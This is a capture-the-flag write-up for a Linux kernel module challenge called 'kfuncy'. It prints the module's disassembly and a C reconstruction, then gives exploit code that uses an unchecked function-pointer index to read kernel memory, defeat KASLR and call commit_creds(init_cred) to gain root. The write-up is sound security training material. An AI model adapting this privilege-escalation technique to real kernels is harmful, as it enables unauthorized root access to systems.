



# kfuncy

### Initial Analysis

The challenge shipped a kernel module, `kfuncy.ko`, inside the provided root filesystem. There was no patch diff, so the first step was to extract the module and inspect it directly.

<figure><figcaption></figcaption></figure>

```bash
rm -rf _tmp_extract
mkdir -p _tmp_extract
cd _tmp_extract
gzip -dc ../rootfs.cpio.gz | cpio -id --quiet root/kfuncy.ko
```

<figure><figcaption></figcaption></figure>

After extracting the module, I checked the available symbols:

```bash
nm -n _tmp_extract/root/kfuncy.ko | grep -i kfuncy
```

<figure><figcaption></figcaption></figure>

Then I disassembled it:

```bash
objdump -dr _tmp_extract/root/kfuncy.ko > _tmp_extract/kfuncy.odr
```

After running that command, we got some interesting asm code:

```asm
_tmp_extract/root/kfuncy.ko:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <__pfx_kfuncy_write>:
   0:	90                   	nop
   1:	90                   	nop
   2:	90                   	nop
   3:	90                   	nop
   4:	90                   	nop
   5:	90                   	nop
   6:	90                   	nop
   7:	90                   	nop
   8:	90                   	nop
   9:	90                   	nop
   a:	90                   	nop
   b:	90                   	nop
   c:	90                   	nop
   d:	90                   	nop
   e:	90                   	nop
   f:	90                   	nop

0000000000000010 <kfuncy_write>:
  10:	f3 0f 1e fa          	endbr64 
  14:	ba 04 00 00 00       	mov    $0x4,%edx
  19:	48 c7 c6 00 00 00 00 	mov    $0x0,%rsi
			1c: R_X86_64_32S	.rodata.str1.1
  20:	e8 00 00 00 00       	call   25 <kfuncy_write+0x15>
			21: R_X86_64_PLT32	_copy_to_user-0x4
  25:	48 f7 d8             	neg    %rax
  28:	19 c0                	sbb    %eax,%eax
  2a:	83 e0 f2             	and    $0xfffffff2,%eax
  2d:	e9 00 00 00 00       	jmp    32 <kfuncy_write+0x22>
			2e: R_X86_64_PLT32	__x86_return_thunk-0x4
  32:	66 66 2e 0f 1f 84 00 	data16 cs nopw 0x0(%rax,%rax,1)
  39:	00 00 00 00 
  3d:	0f 1f 00             	nopl   (%rax)

0000000000000040 <__pfx_kfuncy_read>:
  40:	90                   	nop
  41:	90                   	nop
  42:	90                   	nop
  43:	90                   	nop
  44:	90                   	nop
  45:	90                   	nop
  46:	90                   	nop
  47:	90                   	nop
  48:	90                   	nop
  49:	90                   	nop
  4a:	90                   	nop
  4b:	90                   	nop
  4c:	90                   	nop
  4d:	90                   	nop
  4e:	90                   	nop
  4f:	90                   	nop

0000000000000050 <kfuncy_read>:
  50:	f3 0f 1e fa          	endbr64 
  54:	ba 08 00 00 00       	mov    $0x8,%edx
  59:	e8 00 00 00 00       	call   5e <kfuncy_read+0xe>
			5a: R_X86_64_PLT32	_copy_to_user-0x4
  5e:	48 f7 d8             	neg    %rax
  61:	19 c0                	sbb    %eax,%eax
  63:	83 e0 f2             	and    $0xfffffff2,%eax
  66:	e9 00 00 00 00       	jmp    6b <kfuncy_read+0x1b>
			67: R_X86_64_PLT32	__x86_return_thunk-0x4
  6b:	0f 1f 44 00 00       	nopl   0x0(%rax,%rax,1)

0000000000000070 <__pfx_kfuncy_ioctl>:
  70:	90                   	nop
  71:	90                   	nop
  72:	90                   	nop
  73:	90                   	nop
  74:	90                   	nop
  75:	90                   	nop
  76:	90                   	nop
  77:	90                   	nop
  78:	90                   	nop
  79:	90                   	nop
  7a:	90                   	nop
  7b:	90                   	nop
  7c:	90                   	nop
  7d:	90                   	nop
  7e:	90                   	nop
  7f:	90                   	nop

0000000000000080 <kfuncy_ioctl>:
  80:	f3 0f 1e fa          	endbr64 
  84:	48 83 ec 30          	sub    $0x30,%rsp
  88:	48 89 d6             	mov    %rdx,%rsi
  8b:	ba 18 00 00 00       	mov    $0x18,%edx
  90:	65 48 8b 05 00 00 00 	mov    %gs:0x0(%rip),%rax        # 98 <kfuncy_ioctl+0x18>
  97:	00 
			94: R_X86_64_PC32	__ref_stack_chk_guard-0x4
  98:	48 89 44 24 28       	mov    %rax,0x28(%rsp)
  9d:	31 c0                	xor    %eax,%eax
  9f:	48 89 e7             	mov    %rsp,%rdi
  a2:	48 c7 04 24 00 00 00 	movq   $0x0,(%rsp)
  a9:	00 
  aa:	48 c7 44 24 08 00 00 	movq   $0x0,0x8(%rsp)
  b1:	00 00 
  b3:	48 c7 44 24 10 00 00 	movq   $0x0,0x10(%rsp)
  ba:	00 00 
  bc:	e8 00 00 00 00       	call   c1 <kfuncy_ioctl+0x41>
			bd: R_X86_64_PLT32	_copy_from_user-0x4
  c1:	48 85 c0             	test   %rax,%rax
  c4:	75 48                	jne    10e <kfuncy_ioctl+0x8e>
  c6:	48 c7 44 24 18 00 00 	movq   $0x0,0x18(%rsp)
  cd:	00 00 
			cb: R_X86_64_32S	.text+0x50
  cf:	48 63 44 24 10       	movslq 0x10(%rsp),%rax
  d4:	48 c7 44 24 20 00 00 	movq   $0x0,0x20(%rsp)
  db:	00 00 
			d9: R_X86_64_32S	.text+0x10
  dd:	85 c0                	test   %eax,%eax
  df:	78 36                	js     117 <kfuncy_ioctl+0x97>
  e1:	48 8b 44 c4 18       	mov    0x18(%rsp,%rax,8),%rax
  e6:	48 8b 74 24 08       	mov    0x8(%rsp),%rsi
  eb:	48 8b 3c 24          	mov    (%rsp),%rdi
  ef:	e8 00 00 00 00       	call   f4 <kfuncy_ioctl+0x74>
			f0: R_X86_64_PLT32	__x86_indirect_thunk_rax-0x4
  f4:	48 98                	cltq   
  f6:	48 8b 54 24 28       	mov    0x28(%rsp),%rdx
  fb:	65 48 2b 15 00 00 00 	sub    %gs:0x0(%rip),%rdx        # 103 <kfuncy_ioctl+0x83>
 102:	00 
			ff: R_X86_64_PC32	__ref_stack_chk_guard-0x4
 103:	75 1b                	jne    120 <kfuncy_ioctl+0xa0>
 105:	48 83 c4 30          	add    $0x30,%rsp
 109:	e9 00 00 00 00       	jmp    10e <kfuncy_ioctl+0x8e>
			10a: R_X86_64_PLT32	__x86_return_thunk-0x4
 10e:	48 c7 c0 f2 ff ff ff 	mov    $0xfffffffffffffff2,%rax
 115:	eb df                	jmp    f6 <kfuncy_ioctl+0x76>
 117:	48 c7 c0 ea ff ff ff 	mov    $0xffffffffffffffea,%rax
 11e:	eb d6                	jmp    f6 <kfuncy_ioctl+0x76>
 120:	e8 00 00 00 00       	call   125 <kfuncy_ioctl+0xa5>
			121: R_X86_64_PLT32	__stack_chk_fail-0x4

Disassembly of section .init.text:

0000000000000000 <__pfx_init_module>:
   0:	90                   	nop
   1:	90                   	nop
   2:	90                   	nop
   3:	90                   	nop
   4:	90                   	nop
   5:	90                   	nop
   6:	90                   	nop
   7:	90                   	nop
   8:	90                   	nop
   9:	90                   	nop
   a:	90                   	nop
   b:	90                   	nop
   c:	90                   	nop
   d:	90                   	nop
   e:	90                   	nop
   f:	90                   	nop

0000000000000010 <init_module>:
  10:	f3 0f 1e fa          	endbr64 
  14:	48 c7 c7 00 00 00 00 	mov    $0x0,%rdi
			17: R_X86_64_32S	.data
  1b:	e9 00 00 00 00       	jmp    20 <_note_18+0x8>
			1c: R_X86_64_PLT32	misc_register-0x4

Disassembly of section .exit.text:

0000000000000000 <__pfx_cleanup_module>:
   0:	90                   	nop
   1:	90                   	nop
   2:	90                   	nop
   3:	90                   	nop
   4:	90                   	nop
   5:	90                   	nop
   6:	90                   	nop
   7:	90                   	nop
   8:	90                   	nop
   9:	90                   	nop
   a:	90                   	nop
   b:	90                   	nop
   c:	90                   	nop
   d:	90                   	nop
   e:	90                   	nop
   f:	90                   	nop

0000000000000010 <cleanup_module>:
  10:	f3 0f 1e fa          	endbr64 
  14:	48 c7 c7 00 00 00 00 	mov    $0x0,%rdi
			17: R_X86_64_32S	.data
  1b:	e9 00 00 00 00       	jmp    20 <_note_18+0x8>
			1c: R_X86_64_PLT32	misc_deregister-0x4
```

Well, cuz it's in asm, i tried to reconstruct it in C terms. Anyway, here are the reconstructed code:

```c
static long kfuncy_ioctl(struct file *f, unsigned long request, unsigned long user_ptr) {
    uint64_t a0 = 0;   // [rsp+0x00]
    uint64_t a1 = 0;   // [rsp+0x08]
    uint64_t a2 = 0;   // [rsp+0x10]

    if (copy_from_user(&a0, (void __user *)user_ptr, 0x18))
        return -EFAULT;

    long (*table[])(uint64_t, uint64_t) = {
        kfuncy_read,   // [rsp+0x18]
        kfuncy_write   // [rsp+0x20]
    };

    int idx = (int32_t)a2;
    if (idx < 0)
        return -EINVAL;

    return table[idx](a0, a1);
}
```

And some of helper functions:

```c
static long kfuncy_read(uint64_t user_dst, uint64_t kernel_src) {
    return copy_to_user((void __user *)user_dst, (void *)kernel_src, 8) ? -EFAULT : 0;
}

static long kfuncy_write(uint64_t kernel_dst, uint64_t user_src) {
    return copy_from_user((void *)kernel_dst, (void __user *)user_src, 4) ? -EFAULT : 0;
}
```

If we read those functions, we will know that `idx` controls which function pointer is called from a stack-based table. So we can control argument struct at `[rsp + 0x00 .. 0x17]`  indexed function pointer lookup base at `[rsp+0x18]` . And notice in `kfuncy_ioctl()` that there are NO upper bound check on `idx`, means that we "might be" can try OOB (Out-Of-Bound) to that thing.

Now, what are the `kfuncy_read()` and `kfuncy_write()` actually do? For read, it will do `copy_to_user(dst_user, src_kernel, 8)`  and for write, it will do `copy_from_user(dst_kernel, src_user, 4)` . With `idx = 0`, ioctl reliably calls `kfuncy_read()`, giving a 8-byte kernel read primitive, or here are some code to help:

```c
args.a0 = user_buffer_ptr;
args.a1 = kernel_address;
args.a2 = 0; // select kfuncy_read
ioctl(fd, request_any, &args);
```

### What the Primitive Gives

With `idx = 0`, the module calls `kfuncy_read`, which becomes a kernel-read primitive:

```c
args.a0 = user_buffer_ptr;
args.a1 = kernel_address;
args.a2 = 0;
ioctl(fd, request_any, &args);
```

That alone is enough to start turning the challenge into a controlled escalation:

1. Use the read primitive to recover the runtime kernel base despite KASLR.
2. Resolve the runtime addresses of `commit_creds` and `init_cred`.
3. Reuse the out-of-bounds function-pointer index so the module indirectly jumps into `commit_creds`.

### Why a Single Function Pointer Is Enough

The crucial observation is that the out-of-bounds lookup does not need to land on a real entry from `table[]`. It only needs to land on a stack slot that already contains a useful pointer.

In this build, the stable target was the slot that aliases `pt_regs->si`, which means the `ioctl` request value itself can be repurposed as the indirect call target.

That turns the exploit strategy into:

1. Put the runtime address of `commit_creds` in the `ioctl` request argument.
2. Put the runtime address of `init_cred` in `a0`, which becomes `rdi`.
3. Use the out-of-bounds index that resolves to the saved `pt_regs->si` slot.

The effective call becomes:

```c
commit_creds(init_cred);
```

That is enough to become root directly.

### Recovering the Kernel Base

Because the module already gives an 8-byte kernel read, finding the text base is mostly a matter of scanning possible KASLR slides and comparing against a known header sequence from the linked kernel image:

```c
static uint64_t find_kernel_base(void) {
    const uint64_t max_slide = 0x40000000ULL;
    uint8_t got[16];

    for (uint64_t slide = 0; slide <= max_slide; slide += 0x200000ULL) {
        uint64_t cand = KERNEL_LINK_BASE + slide;
        if (!kread_bytes(0, cand, got, sizeof(got))) {
            continue;
        }
        if (memcmp(got, KTEXT_HDR, sizeof(got)) == 0) {
            return cand;
        }
    }
    return 0;
}
```

Once `kbase` is known, converting link-time symbols to runtime ones is straightforward:

```c
static uint64_t sym_runtime(uint64_t kbase, uint64_t sym_link) {
    return kbase + (sym_link - KERNEL_LINK_BASE);
}
```

### Triggering the Final Call

The final step is small. The request value carries the call target, and the controlled argument structure supplies `init_cred` as the first argument:

```c
kfuncy_args_t a;
a.a0 = init_cred;
a.a1 = 0;
a.a2 = 29;

do_ioctl((unsigned long)commit_creds_rt, &a);
```

Here, `29` is the out-of-bounds index that reaches the saved `pt_regs->si` slot on the target kernel/module build.

### Exploit Skeleton

The exploit flow is:

1. Open `/dev/kfuncy`.
2. Use the read primitive to find the runtime kernel base.
3. Resolve `commit_creds` and `init_cred`.
4. Trigger the out-of-bounds indirect call with the request value set to `commit_creds`.
5. Verify `getuid() == 0`.
6. Read the flag source after privilege escalation.

A minimal version of the core trigger looks like this:

```c
int main(void) {
    g_fd = open("/dev/kfuncy", O_RDONLY);
    if (g_fd < 0) {
        perror("open(/dev/kfuncy)");
        return 1;
    }

    uint64_t kbase = find_kernel_base();
    if (!kbase) {
        fprintf(stderr, "failed to find kernel base\n");
        return 1;
    }

    uint64_t init_cred = sym_runtime(kbase, SYM_init_cred);
    uint64_t commit_creds_rt = sym_runtime(kbase, SYM_commit_creds);

    kfuncy_args_t a;
    a.a0 = init_cred;
    a.a1 = 0;
    a.a2 = 29;

    if (!do_ioctl((unsigned long)commit_creds_rt, &a)) {
        fprintf(stderr, "commit_creds call failed\n");
        return 1;
    }

    if (getuid() != 0) {
        fprintf(stderr, "not root\n");
        return 1;
    }

    read_flag();
    return 0;
}
```

### Takeaway

The module looked tiny, but that is exactly why the bug was easy to miss at first glance. A single unchecked index into a stack-based function-pointer table was enough to combine:

1. A stable kernel read primitive.
2. Runtime symbol recovery under KASLR.
3. A direct jump into `commit_creds(init_cred)`.

The nice part of this challenge is how little surface area it needs. No heap shaping, no ROP chain, and no long corruption sequence. Just one function-pointer selection used in the wrong place.
